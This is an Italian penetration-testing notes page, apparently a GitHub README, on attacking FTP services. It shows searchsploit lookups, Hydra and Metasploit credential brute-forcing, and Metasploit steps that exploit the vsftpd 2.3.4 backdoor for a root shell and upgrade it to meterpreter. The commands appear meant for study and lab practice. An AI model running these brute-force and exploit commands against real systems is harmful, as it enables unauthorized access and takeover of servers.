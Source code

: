 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <ftp-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

Verifica anche con degli script nse se il target é vunerabile a certi exploit noti: <br>
- `ftp-bounce` → verifica la vulnerabilità FTP bounce (obsoleta)   
- `ftp-proftpd-backdoor` → verifica exploit in ProFTPD  

---

## Brute force delle credenziali

Per tentare un brute force delle credenziali possiamo usare :
### Hydra
```
hydra -L <usernameList> -P <passwordList> <IP> -t 4 ftp
```

- `-L` specifica la lista di username  
- `-P` la wordlist delle password  
- `-t 4` imposta il numero di thread

Se le credenziali sono corrette, Hydra lo notificherà a schermo.

### Metapsloit
Modulo per brute force:

```
use auxiliary/scanner/ftp/ftp_login
set RHOSTS <IP>
set USERNAME anonymous
run
```

---

## Connessione con credenziali valide

Dopo aver scoperto una coppia `user:pass`, accedi con:

```
ftp <IP>
```

Poi:

```
Name: <username>
Password: <password>
```
Dopo che abbiamo ottenuto una sessione nella macchina target, possiamo passare alla fase di Post Exploitation. 

---

## Exploiting bsftpd 2.3.4
Se durante la fase di Scansione ed enumerazione, la versione del servizio dovesse risultare `vsftpd 2.3.4`, possiamo procedere con l'exploitation di essa
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <IP>
run
```
riuscendo ad ottenre una shell `root` e quindi non abbiamo bisogno di effettuare privilege escalation <br>
possiamo upgradare la shell ottenuta con il comando: <br>
```bash
use post/multi/manage/shell_to_meterpreter
set LHOST <IP>
set SESSION <number>
run
```
> potrebbe dare in output un errore ma é normale

successivamente verrá creata una nuova sessione meterpeter. 
```bash
sessions
```
